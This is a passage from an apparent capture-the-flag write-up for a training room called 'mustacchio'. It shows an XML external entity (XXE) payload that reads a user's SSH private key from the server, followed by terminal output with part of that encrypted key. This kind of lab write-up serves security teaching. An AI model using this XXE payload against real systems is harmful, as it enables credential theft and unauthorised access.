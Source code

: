 Know that we can now display the contents of files on the server, it's safe to assume this is our intended path. Assuming the SSH key is in the default location for Barry let's try to grab it:

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

We do indeed get the rsa key:

![mustacchio-rsa_key](/assets/images/2021-06-12-17-42-12.png)

Copy and paste that in to a file on Kali:

```text
┌──(root💀kali)-[~/thm/mustacchio]
└─# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
<SNIP>
-----END RSA PRIVATE KEY-----
```
